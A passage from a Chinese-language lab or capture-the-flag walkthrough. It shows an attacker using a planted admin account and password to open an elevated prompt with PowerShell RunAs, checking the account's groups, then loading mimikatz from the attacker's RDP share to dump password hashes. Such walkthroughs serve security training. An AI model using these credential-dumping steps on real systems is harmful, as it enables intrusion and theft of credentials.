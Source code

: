 用户`adm1n`被添加了密码`P@ssw0rd`。为了获得管理员命令提示符界面，我使用了以下命令:

```
**PS C:\Users\Atlas>** **Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential adm1n**
```

出现以下窗口(图 9):

![](img/0c3b15d53f4f2d6a6d27b868aff4c2aa.png)

**图 9**

我在密码字段中键入`P@ssw0rd`(图 9a)，然后一个用户访问控制窗口出现，询问我是否想以管理员身份运行命令提示符——我点击了“是”然后，我从命令提示符运行 PowerShell。为了确定我拥有什么特权，我在命令提示符下运行了`whoami /groups`。下表描述了输出(图 10):

![](img/3c7ffc0f589eeccad8d024a2b4e49328.png)

**图 10**

BUILTIN\Administrators 和 Mandatory 标签\High Mandatory Level 表示此命令提示符实例是以管理员身份运行的。

现在，我将转储系统上的哈希值。我下载了`mimikatz_trunk.zip` ( [Delpy，2021](https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20210810-2) )并解压到我的 AttackBox 的项目文件夹中。然后，我从目标机器的命令提示符加载:

```
**PS C:\Windows\system32> \\tsclient\atlas\mimikatz\x64\mimikatz.exe**.#####.   mimikatz 2.2.0 (x64) #19041 [redacted]
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi`(benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX (vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/**mimikatz #**
```
